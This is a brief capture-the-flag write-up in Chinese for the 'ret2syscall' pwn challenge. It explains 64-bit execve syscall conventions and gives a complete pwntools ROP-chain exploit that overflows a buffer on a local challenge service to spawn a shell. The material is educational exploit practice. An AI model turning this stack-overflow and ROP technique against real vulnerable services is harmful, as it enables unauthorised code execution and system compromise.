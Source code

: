 ```yaml
---
title: ret2syscall
date: 2023/9/26 12:00:00
tags:
    - syscall
---
```


## 文件分析

下载`ret2syscall`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

摆明了随便打

## EXPLOIT

首先要知道64位syscall和32位syscall有什么差别:
(32位见[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2syscall))  
64位syscall使用rax作为指令寄存器，这里我们使用execve  
然后execve的三个参数分别放在rdi, rsi, rdx三个寄存器中  
放好后执行syscall指令即可

```python
from pwn import *
sh = remote('localhost', 33359)
popRax = 0x40117e
callObj = 59 # execve
popRsiRdx = 0x401182
popRdi = 0x401180
shstr = 0x404040
syscall = 0x401185
sh.sendline(b'0'*0x48 + p64(popRax) + p64(callObj) + p64(popRsiRdx) + p64(0) + p64(0) + p64(popRdi) + p64(shstr) + p64(syscall))
sh.interactive()
```

Done.
